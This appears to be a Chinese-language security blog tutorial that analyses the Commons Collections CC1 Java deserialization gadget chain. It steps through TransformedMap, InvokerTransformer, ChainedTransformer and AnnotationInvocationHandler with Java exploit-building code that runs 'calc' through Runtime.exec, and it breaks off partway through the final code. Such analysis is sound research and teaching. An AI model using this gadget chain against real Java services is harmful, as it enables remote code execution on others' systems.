CommonsCollections-1
- date
- 2023-09-10 12:08:13
环境搭建
JDK 8u65：Oracle JDK 8u65 全平台安装包下载 - 密码 8899
源码：https://hg.openjdk.org/jdk8u/jdk8u/jdk/rev/af660750b2f4
下载源码 zip 文件，然后到 jdk 8u65 目录，解压自带的 src.zip，然后把下载的源码包中 /src/share/classes下的 sun 文件夹拷贝到 src 文件夹中去。
commons-collections 环境直接使用 ysoserial 项目的即可。
涉及的类
这里先理一下，利用链中涉及的接口和类：
这个类其实就是一个 Map，与其他 Map 不同的是，它在调用 put 方法时，会使用自定义的 transform 对 key、value 都做以一个转换再 put 进去。
构造函数这里是获取一个 map，然后就是 key 和 vaule 对应的 Transformer 类，不过构造函数是 protected 的，所以要使用 decorate 去获取一个实例：

Transformer 是一个接口，其中的 transform 方法就是对输入对象做一个转换，这里就叫它转换器好了：

实现该接口的有这几个：

然后看一下这个 map 的 put 方法，它对 key 和 value 都做了一个转换：

具体的转换方法就是调用构造函数那里传入的 Transformer 的 transform 方法：

这个类其实就是在构造的时候获取一个输入，然后再 transform() 的时候将这个输入返回。

该类就是 CC1 链的执行类了，它的 transform() 的功能是通过反射执行某个方法：

构造函数如下：

简单来说就是在构造的时候指定方法名、方法形参、实参，然后通过 transform 去使用 input 执行指定的方法。
可以看到该类实现了 Serializable 接口，可以进行反序列化操作，那么也就可以作为利用链的执行类：

来使用该类去实现一个命令执行，这里需要注意的是 Runtime ** 类是没有实现 Serializable ** 接口的，那么后续进行序列化获取 payload 的时候就会出错，所以直接通过反射来获取 Runtime ** 实例**。
在 Java 中，待序列化的对象和所有它使用的内部属性对象，必须都实现了 java.io.Serializable 接口。
使用反射来完成命令执行，这样写的话，我们只是使用了 Runtime.class ，它实际上是 java.lang.Class 对象，该类实现了 Serializable 接口：
| public static void main(String[] args) throws Exception {
// 1. 获取 getRuntime 方法
Method getRuntime = Runtime.class.getMethod("getRuntime");
// 2. 获取 Runtime 实例
Object runtime = getRuntime.invoke(null, null);
// 3. 获取 exec 方法
Method exec = Runtime.class.getMethod("exec", String.class);
// 4. runtime 实例调用 exec 方法 参数为 "calc"
exec.invoke(runtime,"calc");
}
|
使用 InvokerTransformer 实现：
| public static void main(String[] args) {
// 1. 通过 getMethod 方法反射获取 getRuntime 方法
Object getRuntime = new InvokerTransformer("getMethod", new Class[]{String.class,Class[].class}, new Object[]{"getRuntime",null}).transform(Runtime.class);
// 2. 通过 invoke 执行 getRuntime 获取 Runtime 对象
Object runtime = new InvokerTransformer("invoke", new Class[]{Object.class,Object[].class}, new Object[]{null,null}).transform(getRuntime);
// 3. 使用 Runtime 对象执行 exec 方法
new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"}).transform(runtime);
}
|
它的作用就是获取一堆的 Transformer，然后执行它们的 tranform 方法，而我们只需要传入一个 object，即可，因为它前一个 tranform 的执行结果就是下一个 tranform 的参数。

来张 P 牛的图：

使用 ChainedTransformer 把上面的 InvokerTransformer 处理一下：
| public static void main(String[] args) {
Transformer[] transformers = new Transformer[]{
new ConstantTransformer(Runtime.class),
new InvokerTransformer("getMethod", new Class[]{String.class,Class[].class}, new Object[]{"getRuntime",null}),
new InvokerTransformer("invoke", new Class[]{Object.class,Object[].class}, new Object[]{null,null}),
new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
};
ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
chainedTransformer.transform(null);
}
|
这个 transform 是我手动调用的，在前面的 TransformedMap 中有说过，它执行 put 的时候就会调用 transform 进行处理：
| public static void main(String[] args) {
Transformer[] transformers = new Transformer[]{
new ConstantTransformer(Runtime.class),
new InvokerTransformer("getMethod", new Class[]{String.class,Class[].class}, new Object[]{"getRuntime",null}),
new InvokerTransformer("invoke", new Class[]{Object.class,Object[].class}, new Object[]{null,null}),
new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
};
// 获取一个 chainedTransformer ( 转换器 )
ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
HashMap<Object, Object> objectObjectHashMap = new HashMap();
// 创建一个 TransformedMap, 设置 key 的转换器为 chainedTransformer
Map decorate = TransformedMap.decorate(objectObjectHashMap, chainedTransformer, null);
// put 触发 transformKey 方法, 其使用 chainedTransformer 的 transform 处理数据, 导致触发命令执行
decorate.put("key","value");
}
|


利用链分析
CC1 利用链可以分 2 条：
TransformLazyMap
TransformMap 链在上面涉及的类模块其实差不多分析完了，就剩下最后一个问题：
上面是我手动去触发执行 transform 方法的（ put ），现在要找一个在反序列化的过程中会导致 transform 触发的入口类。
这个其实就是逆推即可，在 TransformMap 中执行了 key/value 的 transform 共有 6 个方法，其分别是：
- 直接调用：
transformKey、transformValue
- 间接调用：
transformMap、checkSetValue、put、putAll
入手的点是在 checkSetValue 中，其他的其实自己找一下调用就可以排除了，transformKey、transformValue 就没有被调用，put 调用上万个地方 ....
这里先看一下 checkSetValue 方法，是使用 valueTransformer 触发的：

那么上面的代码修改成这样后，只要 checkSetValue 被调用就可以执行命令了：
| TransformedMap.decorate(objectObjectHashMap, null, chainedTransformer);
|
找 checkSetValue 调用：

Entry 代表的是 Map 中的一个键值对，它其实重写了父类 AbstractMapEntryDecorator 的 setValue 方法，在遍历 Map 时就可以调用这个方法。
再向上跟，发现有一个是在 readObject() 方法调用的，这不就是我们要找的入口类嘛

可以看到 memberValues 可控：


看一下构造函数，memberValues 传入构造的 TransformedMap 即可，这里的 type 查了一下是叫注解：

不过并没有写明声明，所以说明这个类只能在sun.reflect.annotation这个本包下被调用，我们要想在外部调用，需要用到反射来解决:
| // 获取 AnnotationInvocationHandler 类
Class c=Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
// 获取构造函数
Constructor constructor=c.getDeclaredConstructor(Class.class,Map.class);
// 设置为可访问
constructor.setAccessible(true);
// 执行构造函数
Object o=constructor.newInstance(Target.class,decorate);
|
Java 注解（Annotation）
然后看看反序列化这里， setValue 方法调用是有条件的：

这里跟一下 memberType，最后是跟到我在构造函数输入的注解这里：


翻了下注释，大概功能如下：
| // 获取指定注解类型的实例
annotationType = AnnotationType.getInstance(type);
// 获取注释类型的成员类型-成员方法之类的
Map<String, Class<?>> memberTypes = annotationType.memberTypes();
// 获取 key 值
String name = memberValue.getKey();
// 获取注解类型中名字为 key 的类型
Class<?> memberType = memberTypes.get(name);
|
那么其实找一个注解，然后把我们上面 Map 的 key 设置为它里面的方法名即可。
这里使用的是 @Target 其内部有一个叫 value 的成员：

那么设置 key 为 value 即可，完成的代码如下：
| public static void main(String[] args) throws ClassNotFoundException, NoSuchMethodException, InvocationTargetException, InstantiationException, IllegalAccessException {
// 执行类
Transformer[] transformers = new Transformer[]{
new ConstantTransformer(Runtime.class),
new InvokerTransformer("getMethod", new Class[]{String.class,Class[].class}, new Object[]{"getRuntime",null}),
new InvokerTransformer("invoke", new Class[]{Object.class,Object[].class}, new Object[]{null,null}),
new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
};
ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
HashMap<Object, Object> objectObjectHashMap = new HashMap();
objectObjectHashMap.put("value", "");;
Map decorate = TransformedMap.decorate(objectObjectHashMap, null, chainedTransformer);
// 入口类
Class c=Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
Constructor constructor=c.getDeclaredConstructor(Class.class,Map.class);
constructor.setAccessible(true);
